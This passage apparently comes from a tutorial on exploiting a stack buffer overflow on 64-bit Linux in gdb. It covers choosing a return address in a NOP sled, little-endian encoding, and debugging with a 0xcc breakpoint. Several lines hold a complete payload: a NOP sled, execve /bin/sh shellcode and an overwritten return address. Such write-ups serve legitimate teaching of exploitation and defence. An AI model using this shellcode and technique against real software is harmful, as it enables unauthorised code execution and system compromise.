 Now we can point our return address into the middle of our NOP sled.
The instruction pointer will slide down our NOP sled and then hit our shellcode.

```bash
(gdb) x/616xb $rsp - 620
```

We can choose a random address that is above our shellcode

```bash
0x7fffffffe33c
```

Before putting this memory address into our exploit,
we need to remember that on Intel and Amd 64-bit architectures use little-endian
format.
This means that the lower-value byte is stored first.
You can see what architecture they use by:

```bash
show endian
```

On a big-endian system bytes would be, intuitively, stored this way:

```bash
\x00\x00\x7f\xff\xff\xff\xe3\x3c
```

As opposed to little-endian like this:

```bash
\x3c\xe3\xff\xff\xff\x7f\x00\x00
```

Now that we have the address we can insert it and execute the program

```bash
(gdb) r < <(python -c "print('\x90'*(616 - 24) + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x3c\xe3\xff\xff\xff\x7f\x00\x00')")
```

We get it gave us not a segmentation fault but an Illegal instruction signal.
This means that we successfully jumped to our shellcode but it could be corrupt.
Let's verify this by replacing the first byte of the shellcode with a **0xcc**.
If the CPU hits the 0xcc instruction it will give a Trace/breakpoint trap signal.

```bash
(gdb) r < <(python -c "print('\x90'*(616 - 24) + '\xcc\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x3c\xe3\xff\xff\xff\x7f\x00\x00')")
```

This will give us the end of the NOPs and the start of our shellcode.
If we hit enter a couple of times we will see that there is inconsistency with
what we intended to inject into the program and what is actually on the stack.

Through playing around with the exploit I found that taking away the number of
NOPs before the shellcode and then putting them after the shellcode but before
the return address made it work.

```bash
(gdb) r < <(python -c "print('\x90'*(616 - 24 - 100) + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x90'*100 + '\x3c\xe3\xff\xff\xff\x7f\x00\x00')")
```
